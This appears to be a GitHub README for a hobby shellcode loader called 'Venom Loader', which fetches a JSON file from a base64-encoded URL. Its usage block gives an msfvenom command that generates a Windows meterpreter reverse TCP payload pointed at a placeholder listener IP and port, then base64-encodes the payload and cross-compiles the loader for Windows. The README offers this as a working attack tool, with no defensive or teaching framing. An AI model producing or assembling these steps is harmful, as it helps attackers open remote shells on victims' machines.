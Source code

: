 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
export GOOS=windows;export GOARCH=amd64 #Only if compiling on linux that is
go build
```
At this point the loader as well as a basic payload should be ready. Modify the main.go and instr file to suit your situation.
## To-Do

- Make a builder script that simplifys creation of the JSON and binary.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.